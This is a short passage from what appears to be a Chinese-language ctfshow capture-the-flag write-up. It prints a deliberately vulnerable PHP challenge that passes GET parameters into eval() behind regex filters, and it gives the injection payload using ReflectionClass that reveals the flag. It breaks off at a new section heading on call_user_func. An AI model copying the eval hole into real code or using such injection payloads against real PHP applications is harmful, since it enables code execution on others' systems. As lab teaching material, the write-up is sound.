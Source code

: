 ```Plain Text
<?php 

highlight_file(__FILE__); 
include("ctfshow.php"); 
//flag in class ctfshow; 
$ctfshow = new ctfshow(); 
$v1=$_GET['v1']; 
$v2=$_GET['v2']; 
$v3=$_GET['v3']; 
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3); 
if($v0){<!-- --> 
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\)|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\;|\?|[0-9]/", $v2)){<!-- --> 
        if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\(|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\?|[0-9]/", $v3)){<!-- --> 
            eval("$v2('ctfshow')$v3"); 
        } 
    } 

} 

?>


```
跟7差不多，但是过滤了很多。因此

>  构造 payload:?v1=1&v2=echo new ReflectionClass&v3=; 

# 9.call\_user\_func（）
## is\_numeric（）
先学几个函数

**Substr（）** 

![image](images/PcWjAFsoEHNGXuJq3mgYTcXnTrW0m7pWfJamJSF4HNo.png)
